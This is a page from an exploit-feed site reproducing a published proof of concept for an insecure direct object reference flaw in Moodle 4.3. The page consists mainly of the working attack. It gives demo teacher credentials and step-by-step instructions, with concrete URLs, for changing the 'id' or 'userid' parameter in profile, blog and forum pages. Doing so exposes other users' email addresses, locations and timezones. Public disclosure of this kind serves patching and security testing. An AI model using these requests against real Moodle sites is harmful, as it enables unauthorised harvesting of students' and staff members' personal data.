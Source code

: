```yaml
---
title: Moodle 4.3 - Insecure Direct Object Reference exploit
url: https://sploitus.com/exploit?id=EDB-ID:51820&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-02-28
fetch_date: 2025-10-04T12:07:16.236129
---
```


# Moodle 4.3 - Insecure Direct Object Reference exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Moodle 4.3 - Insecure Direct Object Reference

2024-02-27 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51820
# Exploit Title: Moodle 4.3 'id' Insecure Direct Object Reference (IDOR)
# Date: 20/10/2023
# Exploit Author: tmrswrr
# Vendor Homepage: https://moodle.org/
# Software Demo: https://school.moodledemo.net/
# Version: 4.3+
# Tested on: Linux

Vulnerability Details
======================

Steps :

1. Log in to the application with the given credentials > USER: teacher PASS: moodle
2. In profile.php?id=11, modify the id Parameter to View User details,
Email address, Country, City/town, City, Timezone
3. Change the existing "id" value to another number

https://school.moodledemo.net/user/profile.php?id=4
https://school.moodledemo.net/user/profile.php?id=5
https://school.moodledemo.net/user/profile.php?id=10
https://school.moodledemo.net/user/profile.php?id=50

https://school.moodledemo.net/blog/index.php?userid=3
https://school.moodledemo.net/blog/index.php?userid=14

https://school.moodledemo.net/mod/forum/user.php?id=53
https://school.moodledemo.net/mod/forum/user.php?id=50
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)